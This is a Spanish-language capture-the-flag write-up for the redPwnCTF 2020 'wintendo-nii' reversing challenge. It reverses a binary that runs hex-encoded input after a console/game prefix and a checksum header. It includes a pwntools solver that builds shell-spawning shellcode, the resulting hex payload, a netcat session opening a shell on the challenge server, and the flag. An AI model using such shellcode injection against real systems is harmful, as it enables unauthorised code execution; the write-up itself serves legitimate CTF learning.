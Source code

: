# wintendo-nii-reversing redPwnCTF writeup

Reto de la categoria de reversing de redPwnCTF

## File recognition
Observamos que es un ELF 64-bit, que  seguramente es el que se ejecuta en el servicio __2020.redpwnc.tf:31215__

Al observar los stirngs vemos que hay 5 que nos llaman la atencion, al parecer son nombree de juegos

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# file nii
nii: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8def7e412da3017e4dd7fcf2c2d6ad0ac37ba8e4, stripped

root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# strings nii
4%d @
%b @
NIIv0.1:H9
TwltPrncH9F
MaroCartH9F
Fitnes++H9F
AmnlXingH9F
%b @
%b @
4%d @
%b @
int main(){puts(flag);}
.shstrtab
.note.gnu.build-id
.text
.data
```

Al correr el programa vemos que nos pide un input y nos muestra uno simbolos chinos que traducidos dicen "En 2020, Wentian Software Company-Todos los derechos reservados.
Por favor inserte el disco del juego", intenamos con un nombre de los juegos que encontramos enlos strings y nada sucede.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# ./nii
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
MaroCart
```

## Analysis

Procedemos a desensamblar el binario en IDa 7.0, al ser un binario stripped no tiene simbolos por lo que nos es un poco mas dificil encontrar el main, sin embargo encontramos el entry_point del programa y empezaremos por ahi.

Vemos las lineas donde el programa recibe el input y lo manda a una funcion que despues de analizar el codigo es una validacion de que sean numeros hexadecimales de los strings que vimos previamente.

Por lo tanto vemos que el input es una codificacion hexadecimal de la version de la "consola" __NIIv0.1:__ concatenado con el nombre de algun juego, lo que quedaria asi __NIIv0.1:MaroCart__

Vemos aqui los pedazos de codigo.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_1.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_2.JPG)


Despues de pasar esas validaciones hace una operacion mas y posteriormente procede a ejecutar parte del input que va despues del string de la consola y el juego, lo que nos da una idea que a lo mejor el tenemos que pasar un shellcode.

Analizando mas a fondo vemos que es un header del mismo codifo que le estamos pasando, en caso de no ser este la ejecucion temrina.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_3.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_.JPG)

## Solution

Despues de analizar todo el coodigo vamos a hacer el el solver para la solucion de este problema, vamos a codificar la operacion del header para que nos de el header del shellcode que enviaremos que en este caso nos regresara una shell

```python
#!/usr/bin/python3
#Author: n0tM4l4f4m4
#Title: solver.py

import struct
import codecs
import binascii
from pwn import *

context.arch = "x86_64"
context.endian  = "little"

str_v = 'NIIv0.1:'
game_1 = 'TwltPrnc'
game_2 = 'MaroCart'
game_3 = 'Fitnes++'
game_4 = 'AmnlXing'

shell_ = asm(shellcraft.sh())

checksum = 0

for val in shell_:
    # print(val)
    v7 = val
    # v7 = ord(val)
    for val2 in range(7, -1, -1):
        if checksum >= 0x80000000:
            v10  = 0x80000011
            pass
        else:
            v10 = 0
            pass
        pass
        v12 = 2 * checksum
        v12 = (v12 & 0xffffff00) | (((v7 >> val2) & 1 ^ v12) & 0xff)
        checksum = v10 ^ v12
    pass

header = struct.pack("<L", checksum)

# print(str_v, game_4, header, shell_)
print(binascii.hexlify(bytes(str_v, 'utf-8') + bytes(game_4, 'utf-8') + header + shell_).upper())
```
Ejecutamos el script para que nos de el payload de los que vamos a meter al binario

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# python3 solver.py
b'4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05'
```
Nos vamos a conectar al servico __2020.redpwnc.tf:31215__ por netcat y paseremos el payload que el script nos dio.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii

```

Vemos que efectivamente nos devolvio una shell y al usar el comando __ls__ nos devuelve ls lista de archivos donde viene la flag.text

Usaremos el comando __cat__ para leer la flag

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii
cat flag.txt
It's dangerous to go alone. Take this!
flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}
```

## Flag
**flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}**
